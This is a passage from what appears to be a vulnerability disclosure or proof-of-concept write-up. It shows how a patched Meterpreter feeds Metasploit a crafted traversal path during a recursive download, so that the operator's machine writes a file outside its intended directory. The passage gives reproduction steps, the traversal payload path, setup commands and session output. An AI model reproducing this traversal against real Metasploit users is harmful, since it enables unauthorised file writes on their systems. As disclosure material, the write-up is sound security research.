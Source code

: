 Run the stageless Meterpreter payload on a remote machine to initiate a
session:

```text
[*] Meterpreter session 1 opened (172.18.0.2:4444 -> 172.17.24.85:49181) at 2017-02-08 19:21:13 +1000
```

6\. Set up the attacker's filesystem

We know that the patched Meterpreter will return
`c:/../../../../../../../../../../../../../../tmp/doot` to the
`request_fs_search` request that Metasploit sends as part of any recursive glob
download request.

Metasploit will then attempt to download the file
`c:/../../../../../../../../../../../../../../tmp/doot` (i.e. the file
`C:/tmp/doot`) to `./c:/../../../../../../../../../../../../../../tmp/doot`
which will trigger the directory traversal vulnerability.

Create a directory layout as follows:

```text
C:\
|
|-- tmp\
   |
   |-- doot
```

```text
C:\Users\Justin>mkdir \tmp

C:\Users\Justin>echo doot doot >> \tmp\doot
```

7\. Trigger the bug

Before triggering the bug, note that `/tmp/doot` does not exist on the victim's
machine:

```text
msf exploit(handler) > cat /tmp/doot
[*] exec: cat /tmp/doot

cat: /tmp/doot: No such file or directory
```

If we were to perform a filesystem search via the Meterpreter session, it would
look quite strange:

```text
msf exploit(handler) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > search -h
Usage: search [-d dir] [-r recurse] -f pattern [-f pattern]...
Search for files.

OPTIONS:

    -d <opt>  The directory/drive to begin searching from. Leave empty to search all drives. (Default: )
    -f <opt>  A file pattern glob to search for. (e.g. *secret*.doc?)
    -h        Help Banner.
    -r <opt>  Recursivly search sub directories. (Default: true)


meterpreter > search -d c:/Users/Justin/Desktop -f foo*txt
Found 3 results...
    C:\Users\Justin\Desktop\foob1.txt (1 bytes)
```